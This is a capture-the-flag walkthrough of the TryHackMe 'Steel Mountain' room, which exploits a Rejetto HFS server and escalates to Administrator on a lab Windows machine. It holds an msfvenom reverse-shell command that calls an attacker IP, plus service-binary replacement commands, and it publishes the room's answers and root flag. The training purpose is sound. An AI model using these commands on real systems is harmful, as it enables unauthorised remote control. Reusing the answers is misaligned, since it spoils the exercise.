



# [Steel Mountain](https://tryhackme.com/room/steelmountain)


## Task 1 -  Introduction


In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

If you don't have the right security tools and environment, deploy your own Kali Linux machine and control it in your browser, with our [Kali Room](https://tryhackme.com/room/kali).

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

### Answer the questions below

Deploy the machine.

* Who is the employee of the month?

    `Bill Harper`

    

## Task 2 - Initial Access

Now you have deployed the machine, lets get an initial shell!

### Answer the questions below

* Scan the machine with nmap. What is the other port running a web server on?

    `8080`

    Scan resulted [here](./files/task2-nmap)

    

* Take a look at the other web server. What file server is running?

    `Rejetto HTTP File Server`

    * Open Http server via browser 

        

    * Open Server information

        

    * Open Link

        ![task2-rejetto.png]

* What is the CVE number to exploit this file server?

    `2014-6287`

    * Search sploit 

        ```
        searchsploit HFS 2.3 -w
        ```

        

    * Open link

        

* Use Metasploit to get an initial shell. What is the user flag?

    * Run Metasploit and search modul

        

    * Show options

        

    * Set option and run exploit

        

    * Search file

        

## Task 3 - Privilege Escalation

Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!

### Answer the questions below

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - _"PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."_

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the upload command in Metasploit to upload the script.


To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering **powershell_shell**:


* Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

    `AdvancedSystemCareService9`

    

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.13.52.88 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`



Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.


* **Note**: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.

    * Run Windows shell
    
        ```
        shell
        ```

        
    
    * Stop service
    
        ```
        sc stop AdvancedSystemCareService9
        ```

        

    * Copy file upload to the directory original service
    
        ```
        copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
        ```

        

    * Setup nc listener on out machine
    
        

    * Then restart the program
        
        ```
        sc start AdvancedSystemCareService9
        ```

        

    * Get a shell as Administrator
    
        

* What is the root flag?

    `9af5f314f57607c00fd09803a587db80`

    

## Task 4 - Access and Escalation Without Metasploit

Now let's complete the room without the use of Metasploit.

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

### Answer the questions below

To begin we shall be using the same CVE. However, this time let's use this [exploit](https://www.exploit-db.com/exploits/39161).

*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*


To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!

* Download the exploit and rename file to `exploit`

    

* Edit the port/ip local in the script
    
    

* Edit port for file server in the script

    

* Download netcat static binary and rename to `nc.exe`

    

* Create simple HTTP Server

    

* Start listener

    

* Run the script


Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.

Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.


What powershell -c command could we run to manually find out the service name?

* *Format is "powershell -c "command here"*

Now let's escalate to Administrator with our new found knowledge.

Generate your payload using msfvenom and pull it to the system using powershell.


Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

First we need to stop the service which we can do like so;

sc stop AdvancedSystemCareService9

Shortly followed by;

sc start AdvancedSystemCareService9

Once this command runs, you will see you gain a shell as Administrator on our listener!